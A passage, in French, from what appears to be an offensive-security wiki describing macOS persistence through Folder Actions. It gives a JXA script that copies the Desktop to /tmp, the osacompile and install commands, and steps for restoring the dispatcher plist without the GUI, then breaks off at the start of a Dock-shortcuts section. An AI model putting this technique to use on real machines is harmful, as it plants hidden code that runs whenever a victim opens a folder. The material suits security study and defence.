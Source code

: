 Voici le script qui sera exécuté :
```applescript:source.js
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("touch /tmp/folderaction.txt");
app.doShellScript("touch ~/Desktop/folderaction.txt");
app.doShellScript("mkdir /tmp/asd123");
app.doShellScript("cp -R ~/Desktop /tmp/asd123");
```
Compilez-le avec : `osacompile -l JavaScript -o folder.scpt source.js`

Déplacez-le vers :
```bash
mkdir -p "$HOME/Library/Scripts/Folder Action Scripts"
mv /tmp/folder.scpt "$HOME/Library/Scripts/Folder Action Scripts"
```
Ensuite, ouvrez l'application `Folder Actions Setup`, sélectionnez le **dossier que vous souhaitez surveiller** et sélectionnez dans votre cas **`folder.scpt`** (dans mon cas, je l'ai appelé output2.scp) :

<figure><img src="../images/image (39).png" alt="" width="297"><figcaption></figcaption></figure>

Maintenant, si vous ouvrez ce dossier avec **Finder**, votre script sera exécuté.

Cette configuration a été stockée dans le **plist** situé dans **`~/Library/Preferences/com.apple.FolderActionsDispatcher.plist`** au format base64.

Maintenant, essayons de préparer cette persistance sans accès GUI :

1. **Copiez `~/Library/Preferences/com.apple.FolderActionsDispatcher.plist`** dans `/tmp` pour le sauvegarder :
- `cp ~/Library/Preferences/com.apple.FolderActionsDispatcher.plist /tmp`
2. **Supprimez** les actions de dossier que vous venez de définir :

<figure><img src="../images/image (40).png" alt=""><figcaption></figcaption></figure>

Maintenant que nous avons un environnement vide

3. Copiez le fichier de sauvegarde : `cp /tmp/com.apple.FolderActionsDispatcher.plist ~/Library/Preferences/`
4. Ouvrez l'application Folder Actions Setup.app pour consommer cette configuration : `open "/System/Library/CoreServices/Applications/Folder Actions Setup.app/"`

> [!CAUTION]
> Et cela n'a pas fonctionné pour moi, mais ce sont les instructions du rapport :

### Raccourcis Dock

Rapport : [https://theevilbit.github.io/beyond/beyond_0027/](https://theevilbit.github.io/beyond/beyond_0027/)

- Utile pour contourner le sandbox : [✅](https://emojipedia.org/check-mark-button)
- Mais vous devez avoir installé une application malveillante dans le système
- Contournement TCC : [🔴](https://emojipedia.org/large-red-circle)

#### Emplacement
